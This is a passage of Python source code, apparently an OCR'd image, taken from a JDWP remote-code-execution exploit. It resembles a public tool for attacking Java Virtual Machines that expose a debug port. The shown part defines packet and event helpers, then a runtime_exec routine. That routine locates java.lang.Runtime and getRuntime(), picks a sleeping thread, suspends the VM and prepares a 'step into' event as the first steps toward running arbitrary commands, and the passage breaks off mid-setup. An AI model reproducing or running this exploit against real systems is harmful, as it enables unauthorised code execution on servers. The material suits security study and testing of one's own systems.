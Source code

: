         def clear_events(self):
            self.socket.sendall( self.create_packet(EVENTCLEARALL_SIG) )
            self.read_reply()
            return

        def wait_for_event(self):
            buf = self.read_reply()
            return buf

        def parse_event(self, buf, eventId):
            num = struct.unpack(">I", buf[2:6])[0]
            rId = struct.unpack(">I", buf[6:10])[0]
            if rId != eventId:
                return None
            tId = self.unformat(self.objectIDSize, buf[10:10+self.objectIDSize])
            loc = -1 # don't care
            return rId, tId, loc

        
    def runtime_exec(jdwp):

        # 1. get Runtime class reference
        runtimeClass = jdwp.get_class_by_name("Ljava/lang/Runtime;")
        if runtimeClass is None:
            print ("[-] Cannot find class Runtime")
            return False
        print ("[+] Found Runtime class: id=%x" % runtimeClass["refTypeId"])

        # 2. get getRuntime() meth reference
        jdwp.get_methods(runtimeClass["refTypeId"])
        getRuntimeMeth = jdwp.get_method_by_name("getRuntime")
        if getRuntimeMeth is None:
            print ("[-] Cannot find method Runtime.getRuntime()")
            return False
        print ("[+] Found Runtime.getRuntime(): id=%x" % getRuntimeMeth["methodId"])

        # 3. setup 'step into' event
        threads = jdwp.allthreads()
        for thread in threads:
            threadStatus = jdwp.status_thread(thread['threadId'])
            threadStatus = threadStatus[0]["threadStatus"]
            if threadStatus == 2: #Sleeping
                threadId = thread['threadId']
                break
        if "threadId" not in dir():
            print("Could not find a suitable thread for stepping")
            exit()
        
        print("[+] Setting 'step into' event in thread: %s" % threadId)
        jdwp.suspendvm()
        step_info  = jdwp.format(jdwp.objectIDSize, threadId)
        step_info += struct.pack(">I",STEP_MIN)
        step_info += struct.pack(">I",STEP_INTO)
        data       = [ (MODKIND_STEP, step_info), ]
        